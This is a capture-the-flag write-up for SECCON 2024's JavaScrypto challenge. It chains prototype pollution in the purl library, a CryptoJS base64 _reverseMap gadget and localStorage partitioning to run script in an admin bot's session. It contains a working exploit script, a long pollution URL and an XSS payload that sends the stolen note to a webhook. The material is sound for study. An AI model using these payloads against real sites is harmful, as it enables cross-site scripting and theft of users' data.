


# Intro
--- 
An interesting challenge from an interesting CTF, SecconCTF24, we couldn't solve any challenge this time as we were too preoccupied by other stuff. JavaScrpyto presented a note application with some interesting client side libs.

So in this application when we create a note a key is generated along with an IV which is used to encrypt our note on the client side using AES and then this cipher text along with the IV is sent to the backend to process. And on visisting ``/note/:noteid`` , the server sends the cipher text along with the corresponding IV which is then used to decrypt the note on the client side. The flag is stored on the admin bot's note which has it's own key and corresponding IV which is stored on the backend. So there are multiple things we need to get the flag, first being the note_id, IV and key for the Admin Note


# Prototype Pollution
---
It's easy to get self XSS in the note application as the note that we created would be decrypted using the same key as well as the same IV, But on making the admin bot visit our note_id would mean that admin would be seeing some gibberish as the key and IV are different.

On the client side they are getting the current note id using this line
```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/purl/2.3.1/purl.min.js" integrity="sha512-xbWNJpa0EduIPOwctW2N6KjW1KAWai6wEfiC3bafkJZyd0X3Q3n5yDTXHd21MIostzgLTwhxjEH+l9a5j3RB4A==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

const id = purl().param().id || localStorage.getItem('currentId');
```
Now on the purl lib is like 10 years old so if we audit the src code of this lib we can see there exists an obvious Prototype Pollution, See if you can spot it.

```js
    function merge(parent, key, val) {
        if (~key.indexOf(']')) {
            var parts = key.split('[');
            parse(parts, parent, 'base', val);
        } else {
            if (!isint.test(key) && isArray(parent.base)) {
                var t = {};
                for (var k in parent.base) t[k] = parent.base[k];
                parent.base = t;
            }
            if (key !== '') {
                set(parent.base, key, val);
            }
        }
        return parent;
    }

    function parseString(str) {
        return reduce(String(str).split(/&|;/), function(ret, pair) {
            try {
                pair = decodeURIComponent(pair.replace(/\+/g, ' '));
            } catch(e) {
                // ignore
            }
            var eql = pair.indexOf('='),
                brace = lastBraceInKey(pair),
                key = pair.substr(0, brace || eql),
                val = pair.substr(brace || eql, pair.length);

            val = val.substr(val.indexOf('=') + 1, val.length);

            if (key === '') {
                key = pair;
                val = '';
            }

            return merge(ret, key, val);
        }, { base: {} }).base;
    }

    function set(obj, key, val) {
        var v = obj[key];
        if (typeof v === 'undefined') {
            obj[key] = val;
        } else if (isArray(v)) {
            v.push(val);
        } else {
            obj[key] = [v, val];
        }
    }
```

The immediate red flag is the merge function that's being in use, so in theory we give a parameter as __proto__ and it'll pollute the global Object.

So this is the url that triggers the PPOLL: ```http://foo:123?id=1&__proto__[hello]=cool```


# Finding a gadget
---
Now we need to find a gadget to exploit this, that's were the CryptoJS lib comes into play,

Lets take a look at the base64 encoding function is CryptoJS
```js
(function () {
    // Shortcuts
    var C = CryptoJS;
    var C_lib = C.lib;
    var WordArray = C_lib.WordArray;
    var C_enc = C.enc;

    /**
     * Base64 encoding strategy.
     */
    var Base64 = C_enc.Base64 = {
        /**
         * Converts a word array to a Base64 string.
         *
         * @param {WordArray} wordArray The word array.
         *
         * @return {string} The Base64 string.
         *
         * @static
         *
         * @example
         *
         *     var base64String = CryptoJS.enc.Base64.stringify(wordArray);
         */
        stringify: function (wordArray) {
            // Shortcuts
            var words = wordArray.words;
            var sigBytes = wordArray.sigBytes;
            var map = this._map;

            // Clamp excess bits
            wordArray.clamp();

            // Convert
            var base64Chars = [];
            for (var i = 0; i < sigBytes; i += 3) {
                var byte1 = (words[i >>> 2]       >>> (24 - (i % 4) * 8))       & 0xff;
                var byte2 = (words[(i + 1) >>> 2] >>> (24 - ((i + 1) % 4) * 8)) & 0xff;
                var byte3 = (words[(i + 2) >>> 2] >>> (24 - ((i + 2) % 4) * 8)) & 0xff;

                var triplet = (byte1 << 16) | (byte2 << 8) | byte3;

                for (var j = 0; (j < 4) && (i + j * 0.75 < sigBytes); j++) {
                    base64Chars.push(map.charAt((triplet >>> (6 * (3 - j))) & 0x3f));
                }
            }

            // Add padding
            var paddingChar = map.charAt(64);
            if (paddingChar) {
                while (base64Chars.length % 4) {
                    base64Chars.push(paddingChar);
                }
            }

            return base64Chars.join('');
        },

        /**
         * Converts a Base64 string to a word array.
         *
         * @param {string} base64Str The Base64 string.
         *
         * @return {WordArray} The word array.
         *
         * @static
         *
         * @example
         *
         *     var wordArray = CryptoJS.enc.Base64.parse(base64String);
         */
        parse: function (base64Str) {
            // Shortcuts
            var base64StrLength = base64Str.length;
            var map = this._map;
            var reverseMap = this._reverseMap;

            if (!reverseMap) {
                    reverseMap = this._reverseMap = [];
                    for (var j = 0; j < map.length; j++) {
                        reverseMap[map.charCodeAt(j)] = j;
                    }
            }

            // Ignore padding
            var paddingChar = map.charAt(64);
            if (paddingChar) {
                var paddingIndex = base64Str.indexOf(paddingChar);
                if (paddingIndex !== -1) {
                    base64StrLength = paddingIndex;
                }
            }

            // Convert
            return parseLoop(base64Str, base64StrLength, reverseMap);

        },

        _map: 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/='
    };

    function parseLoop(base64Str, base64StrLength, reverseMap) {
      var words = [];
      var nBytes = 0;
      for (var i = 0; i < base64StrLength; i++) {
          if (i % 4) {
              var bits1 = reverseMap[base64Str.charCodeAt(i - 1)] << ((i % 4) * 2);
              var bits2 = reverseMap[base64Str.charCodeAt(i)] >>> (6 - (i % 4) * 2);
              var bitsCombined = bits1 | bits2;
              words[nBytes >>> 2] |= bitsCombined << (24 - (nBytes % 4) * 8);
              nBytes++;
          }
      }
      return WordArray.create(words, nBytes);
    }
}());
```

We can find a gadget here
```js
var reverseMap = this._reverseMap;

            if (!reverseMap) {
                    reverseMap = this._reverseMap = [];
                    for (var j = 0; j < map.length; j++) {
                        reverseMap[map.charCodeAt(j)] = j;
                    }
            }
```
If the reverseMap is already defined it takes it otherwise it generates a new one, so we can use the Prototype Pollution to populate this._reverseMap, Hence we can control the base64 encoding and decoding.

Now, We can manipulate the _reverseMap in such a way that when it base64 decodes the Key it'll decode to 0x00000000000000000, Hence we can make a note with key as 0x00000000000000000 and on the admin's side it'll decode the key also to 0x00000000000000000 because of the new base64 encoding scheme defined by us.

But there is just one problem the ciphertext is also base64 decoded our new scheme would also affect the cipher text as well. So here's how we get over this.

Now we can easily bypass this restriction as follows, we can make a cipher text with non ascii characters and since the decoding scheme is defined by us we can extend our custom reverse map to cover these cases as well.
So in theory Key which will be standard base64 would be now 0x00000000000000000, the ciphertext and IV would be generated and each character in it would be shifted by 100 so as to generate non base64 characters, so any base64 character would decode to 0x00000000000000000 and any non base64 character would be decoded according to our custom definition. Hence we can code execution on the admin's side.

Now here is a script which generates the PPOLL exploit and sends the note with our crafted IV and cipher text.
```js
// Credits: satoooon
const CryptoJS = require("crypto-js");
const SECCON_HOST = "localhost"
const WEB_PORT = "3000";

const encryptNote = ({ plaintext, key }) => {
  const keyArray = CryptoJS.enc.Base64.parse(key);
  const ivArray = CryptoJS.lib.WordArray.random(16);
  // const saltArray = CryptoJS.lib.WordArray.random(16);
  const ciphertextArray = CryptoJS.AES.encrypt(plaintext, keyArray, {
    iv: ivArray, 
    // salt: saltArray, 
  }).ciphertext;
  return {
    iv: ivArray.toString(CryptoJS.enc.Base64), 
    ciphertext: ciphertextArray.toString(CryptoJS.enc.Base64), 
  }
}

const exploit = async () => {
  const payload = ``;
  const key = new CryptoJS.lib.WordArray.init([0, 0, 0, 0]).toString(CryptoJS.enc.Base64);
  const { iv, ciphertext } = encryptNote({key, plaintext: payload});

  const SHIFT_INDEX = 100;
  const craftedCiphertext = [...ciphertext].map((c) => c === "=" ? "" : String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("");
  const craftedIv = [...iv].map((c) => c === "=" ? "" : String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("");

  const map = [...'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'].map((c) => String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("")+"=";
  const reverseMap = {}
  for (var j = 0; j < map.length; j++) {
    reverseMap[map.charCodeAt(j)] = j;
  }

  const queries = Object.entries(reverseMap).map(([k, v]) => `__proto__[_reverseMap][${k}]=${v}`).join("&");

  await fetch(`http://${SECCON_HOST}:${WEB_PORT}/note`, {
    method: "POST", 
    body: JSON.stringify({
      iv: craftedIv, 
      ciphertext: craftedCiphertext
    }), 
    headers: {
      "content-type": "application/json"
    }
  }).then(r => r.json()).then(res => console.log(res));
  console.log(queries)
}

exploit()
```

Now, if we visit the corresponding note that the above exploit generates with the PPOLL exploit we can see alert popup


# LocalStorage partitioning
---
Okay cool now we have a way to execute js on other user sessions but if the admin visits our note then the current_id which is stored in the localstorage would be overwritten with our note's id, this is the client side code which deals with that.
```js
const id = purl().param().id || localStorage.getItem('currentId');
      if (id && typeof id === 'string') {
        readNote({
          id,  
          key, 
        }).then(content => {
          if (content) {
            localStorage.setItem('currentId', id);
            document.getElementById('note').innerHTML = content;
          } else {
            document.getElementById('note').innerHTML = 'Failed to read';
          }
        });
      }
```
So how can we now get the flag note's id, since it's overwritten by our noteid? 

The answer is that localstorage is partitioned in chrome meaning that if a site a.com has framed another site lets say c.com and b.com also frames the site c.com now if we set something in the localstorage of c.com  framed in  a.com, it won't be reflected in the c.com framed inside b.com, this behaviour is very similar to cache partitioning in chrome.



So we can just a link to admin bot, and then in the website create an iframe with src set to our malicious note's id along with the PPOLL exploit and then as the XSS payload inside the malicious note we can give 
```html
{location.href="<webhook>/flag?FLAG="+w.document.getElementById("note").innerHTML},2000)'>
```
So this opens a new window and then reads the flag as when the admin opens the ``/`` page in a new window he'll be automatically redirected to the flag page as here our exploit note is an iframe, so it can't influence the localstorage of ``/`` page.

and the iframe payload looks like this
```html
<body>
    <script>
        (async () => {
            const evilUrl = "http://localhost:3000/?id=055d2029-0c9d-4f11-9c2b-cd158aec84cc&__proto__[_reverseMap][61]=64&__proto__[_reverseMap][143]=62&__proto__[_reverseMap][147]=63&__proto__[_reverseMap][148]=52&__proto__[_reverseMap][149]=53&__proto__[_reverseMap][150]=54&__proto__[_reverseMap][151]=55&__proto__[_reverseMap][152]=56&__proto__[_reverseMap][153]=57&__proto__[_reverseMap][154]=58&__proto__[_reverseMap][155]=59&__proto__[_reverseMap][156]=60&__proto__[_reverseMap][157]=61&__proto__[_reverseMap][165]=0&__proto__[_reverseMap][166]=1&__proto__[_reverseMap][167]=2&__proto__[_reverseMap][168]=3&__proto__[_reverseMap][169]=4&__proto__[_reverseMap][170]=5&__proto__[_reverseMap][171]=6&__proto__[_reverseMap][172]=7&__proto__[_reverseMap][173]=8&__proto__[_reverseMap][174]=9&__proto__[_reverseMap][175]=10&__proto__[_reverseMap][176]=11&__proto__[_reverseMap][177]=12&__proto__[_reverseMap][178]=13&__proto__[_reverseMap][179]=14&__proto__[_reverseMap][180]=15&__proto__[_reverseMap][181]=16&__proto__[_reverseMap][182]=17&__proto__[_reverseMap][183]=18&__proto__[_reverseMap][184]=19&__proto__[_reverseMap][185]=20&__proto__[_reverseMap][186]=21&__proto__[_reverseMap][187]=22&__proto__[_reverseMap][188]=23&__proto__[_reverseMap][189]=24&__proto__[_reverseMap][190]=25&__proto__[_reverseMap][197]=26&__proto__[_reverseMap][198]=27&__proto__[_reverseMap][199]=28&__proto__[_reverseMap][200]=29&__proto__[_reverseMap][201]=30&__proto__[_reverseMap][202]=31&__proto__[_reverseMap][203]=32&__proto__[_reverseMap][204]=33&__proto__[_reverseMap][205]=34&__proto__[_reverseMap][206]=35&__proto__[_reverseMap][207]=36&__proto__[_reverseMap][208]=37&__proto__[_reverseMap][209]=38&__proto__[_reverseMap][210]=39&__proto__[_reverseMap][211]=40&__proto__[_reverseMap][212]=41&__proto__[_reverseMap][213]=42&__proto__[_reverseMap][214]=43&__proto__[_reverseMap][215]=44&__proto__[_reverseMap][216]=45&__proto__[_reverseMap][217]=46&__proto__[_reverseMap][218]=47&__proto__[_reverseMap][219]=48&__proto__[_reverseMap][220]=49&__proto__[_reverseMap][221]=50&__proto__[_reverseMap][222]=51"
            const iframe = document.createElement("iframe");
            iframe.src = evilUrl;
            document.body.appendChild(iframe);
        })();
    </script>
</body>
```

And that's how we exfil the flag.